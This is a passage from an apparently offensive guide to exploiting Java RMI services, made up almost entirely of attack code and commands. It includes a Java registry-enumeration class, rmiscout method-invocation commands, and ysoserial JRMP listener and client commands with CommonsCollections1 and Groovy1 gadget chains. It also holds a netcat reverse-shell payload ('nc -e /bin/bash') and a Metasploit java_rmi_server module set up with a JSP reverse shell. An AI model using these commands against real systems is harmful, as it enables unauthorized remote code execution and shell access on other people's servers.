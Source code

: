### Method 3: Manual RMI Invocation

#### Direct Method Call
```java
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIExploit {
    public static void main(String[] args) {
        try {
            Registry registry = LocateRegistry.getRegistry("<target-ip>", 1099);
            String[] names = registry.list();
            for (String name : names) {
                System.out.println("Found RMI object: " + name);
                // Attempt to invoke methods
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

#### Dangerous Method Invocation
```bash
# Using rmiscout
java -jar rmiscout.jar -i <target-ip> -p 1099 invoke <object> <method> <params>

# Manual invocation with reflection
java -cp . RMIMethodInvoker <target-ip>:1099 objectName methodName param1 param2
```

### Method 4: JRMP Exploitation

#### JRMP Listener Attack
```bash
# Start JRMP listener
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 "nc -e /bin/bash <your-ip> 4444"

# Trigger connection from target
java -cp . JRMPClient <target-ip> 1099

# Using Metasploit
use exploit/multi/misc/java_rmi_server
set RHOST <target-ip>
set PAYLOAD java/jsp_shell_reverse_tcp
exploit
```

#### JRMP Client Exploitation
```bash
# Exploit vulnerable JRMP client
java -cp ysoserial.jar ysoserial.exploit.JRMPClient <target-ip> 1099 CommonsCollections1 "command"

# With different gadget chains
java -cp ysoserial.jar ysoserial.exploit.JRMPClient <target-ip> 1099 Groovy1 "id; whoami"
```
